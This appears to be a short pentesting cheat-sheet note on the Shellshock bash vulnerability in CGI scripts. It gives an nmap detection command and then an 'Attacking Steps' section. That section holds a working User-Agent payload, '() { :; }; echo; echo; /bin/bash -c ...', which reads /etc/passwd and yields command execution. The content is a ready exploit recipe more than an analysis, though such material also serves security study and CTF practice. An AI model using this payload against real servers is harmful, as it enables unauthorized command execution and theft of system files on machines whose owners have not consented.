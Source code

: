 🤜🏽️ **<mark style="background: #FFF3A3A6;">Best Resource</mark>** ⇒ 🔥️ [https://sirensecurity.io/blog/shellshock/](https://sirensecurity.io/blog/shellshock/) 🔥️

- - -
## **DETECTION** 🔍️ 🔍️:

🛡️ Fuzz the **`/`** and **`/cgi-bin/`** **directory**, If any cgi or bash script found this is good.
🛡️ Lets **assume** we find something named “**gettime.cgi**”

```sh
nmap -sV $IP --script=http-shellshock --script-args “http-shellshock.uri=/gettime.cgi”
```

![Imgur](https://i.imgur.com/D1orx2d.png)

- - -
## **ATTACKING STEPS** :

🗡️🗡️ visit to the **/gettime.cgi** and intercept it in burp, then send to reapeter.
🗡️🗡️ Remove the user-agent's data with this  : 
```sh
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

🗡️🗡️ Now we have Command execution ! ! ! 

![Imgur](https://i.imgur.com/nSE8NRy.png)

- - -

